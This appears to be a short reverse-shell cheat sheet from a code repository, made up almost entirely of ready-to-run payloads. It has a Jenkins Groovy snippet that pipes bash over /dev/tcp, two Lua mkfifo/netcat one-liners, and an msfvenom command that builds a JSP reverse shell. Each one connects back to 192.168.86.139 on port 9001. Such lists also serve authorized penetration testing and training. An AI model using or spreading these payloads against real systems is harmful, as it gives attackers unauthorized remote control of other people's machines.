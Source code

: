 ### jenkins reverse shell
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.86.139/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### lua reverse shell
```lua
# Example 1
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")

# Example 2
lua -e 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")'
```

### jsp reverse shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.86.139 LPORT=9001 -f raw > shell.jsp
```